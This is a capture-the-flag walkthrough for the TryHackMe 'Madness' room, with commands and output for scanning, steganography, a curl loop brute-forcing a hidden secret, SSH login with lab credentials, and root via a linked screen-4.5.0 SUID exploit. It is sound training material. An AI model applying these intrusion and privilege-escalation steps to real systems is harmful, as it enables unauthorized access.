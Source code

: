 start with nmap
```console
kali@kali:~/madness$ nmap 10.10.156.223
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 11:58 EDT
Nmap scan report for 10.10.156.223
Host is up (0.044s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.76 seconds
kali@kali:~$ nmap -p- -A 10.10.156.223 > madness/target.txt
kali@kali:~$ cat madness/target.txt 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 11:54 EDT
Nmap scan report for 10.10.156.223
Host is up (0.044s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 268.31 seconds
```
then I check the source code for on the defualt page and I found soemthing interessting.
```html
<div class="page_header floating_element">
        <img src="thm.jpg" class="floating_element"/>
<!-- They will never find me-->
        <span class="floating_element">
          Apache2 Ubuntu Default Page
        </span>
      </div>
```
seem like there is something with that thm.jpg. You will notic that the picture is corrupted and you can not view it.I run ```strings``` to check the picture
```console
kali@kali:~/madness$ strings thm.bak 
$3br
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
        #3R
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
#|Ttm
|q6;A
54{Ar
```
I googling about about ```CDEFGHIJSTUVWXYZcdefghijstuvwxyz``` seem like this find have some hidden data inside and we will need use steghide to extract it. To extract the hidden data, we need a password which me dont have. So I decide to work on another stuff


When you open it with hexeditor you will see that thm.jpg file signature is .png. we need to change it back .jpg signature. After some digging if found this [link](https://en.wikipedia.org/wiki/List_of_file_signatures) which contains list of file signatures.



Use hexeditor and fix the signature to ```FF D8 FF E0 00 10 4A 46 49 46 00 01``` and save it now check the picture again and visite the hidden page. here is the source html of the page
```html
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 1</p>

<p>That is wrong! Get outta here!</p>

</div>
</body>
</html>
```
http://10.10.32.231/th1s_1s_h1dd3n/index.php?secret=1

```bash
#!/bin/bash
for i in {1..99}
do
    curl "http://10.10.32.231/th1s_1s_h1dd3n/index.php?secret=$1" 
done > result.txt
```
this script wasn't the best script. but I figured out that each reponse have 18 lines of html. so I ran ```cat result.txt | grep -n wrong ``` and try to find the line that jump more that 18 line.
```console
kali@kali:~/madness$ cat result.txt | grep -n wrong
*
*
1274:<p>That is wrong! Get outta here!</p>
1292:<p>That is wrong! Get outta here!</p>
1310:<p>That is wrong! Get outta here!</p>
1346:<p>That is wrong! Get outta here!</p>
1364:<p>That is wrong! Get outta here!</p>
*
*
```
as you can see between 1310 and 1348, it jump more that 18 so I guess password should be at 1310+18 = line 1328. now let grep that line
```console
kali@kali:~/madness$ cat -n result.txt | grep 1328
  1328  <p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>
```
We got the password!!! now use it with steghide to extract the hidden data.
```console
kali@kali:~/madness$ steghide extract -sf thm.jpg 
Enter passphrase: 
wrote extracted data to "hidden.txt".
kali@kali:~/madness$ cat hidden.txt 
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```
The user name look weird and I remember that the hint was ```There's something ROTten about this guys name! ```


ROT is a encryption algorith. The most common ROT is ROT13. I learn how to decrypt ROT13 when I did Bandit CTF, so let crack it
- ROT13
| input                      | output                     |
|----------------------------|----------------------------|
| ABCDEFGHIJKLMNOPQRSTUVWXYZ | NOPQRSTUVWXYZABCDEFGHIJKLM |
| abcdefghijklmnopqrstuvwxyz | nopqrstuvwxyzabcdefghijklm |
```console
kali@kali:~/madness$ echo "wbxre" | tr '[A-Za-z]' '[NOPQRSTUVWXYZABCDEFGHIJKLMnopqrstuvwxyzabcdefghijklm]'
joker
```
now we got username... still dont have password lol. I dont know where to looks then I found the picture on THM room and try which kinda look suspicious. I try to extract data from the picture using steghide + ```y2RPJ4QaPF!B``` and ```joker``` as password........ it did work. So I was like, let try without password then? GG we got the password
```console
kali@kali:~/madness$ steghide extract -sf 5iW7kC8.jpg
Enter passphrase: 
wrote extracted data to "password.txt".
kali@kali:~/madness$ cat password.txt 
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
kali@kali:~/madness$ ssh joker@10.10.32.231
joker@10.10.32.231's password:
joker@ubuntu:~$ ls
user.txt
joker@ubuntu:~$ cat user.txt 
THM{d5781e53XXXXXXXXXXXXXXXXXXXX}
```


```console
joker@ubuntu:~$ sudo -l
[sudo] password for joker: 
Sorry, user joker may not run sudo on ubuntu.
joker@ubuntu:~$ 
joker@ubuntu:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Nov 29 04:40 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwxr-sr-x 1 root mlocate 39520 Nov 17  2014 /usr/bin/mlocate
-rwxr-sr-x 1 root shadow 62336 Mar 26  2019 /usr/bin/chage
-rwxr-sr-x 1 root crontab 36080 Apr  5  2016 /usr/bin/crontab
-rwxr-sr-x 1 root ssh 358624 Mar  4  2019 /usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 27368 Oct 10  2019 /usr/bin/wall
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 75304 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54256 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 39904 Mar 26  2019 /usr/bin/newgrp
-rwxr-sr-x 1 root shadow 22768 Mar 26  2019 /usr/bin/expiry
-rwsr-xr-x 1 root root 40432 Mar 26  2019 /usr/bin/chsh
-rwxr-sr-x 1 root tty 14752 Mar  1  2016 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 71824 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Oct 11  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40128 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 1588648 Jan  4 14:03 /bin/screen-4.5.0
-rwsr-xr-x 1 root root 1588648 Jan  4 13:59 /bin/screen-4.5.0.old
-rwsr-xr-x 1 root root 40152 Oct 10  2019 /bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 27608 Oct 10  2019 /bin/umount
-rwxr-sr-x 1 root shadow 35600 Apr  9  2018 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 35632 Apr  9  2018 /sbin/pam_extrausers_chkpwd
```
After some researching, I found out that there is sa exploit for ```screen-4.5.0``` link [here](https://www.exploit-db.com/exploits/41154)


crate the ```exploit.sh``` and make it executable (```chmod +x```) and execute it
```console
joker@ubuntu:~$ nano exploit.sh
joker@ubuntu:~$ chmod +x exploit.sh 
joker@ubuntu:~$ ./exploit.sh 
# whoami
root
# cd /root      
# ls
root.txt
# cat root.txt
THM{5ecdXXXXXXXXXXXXXXXXXX}
```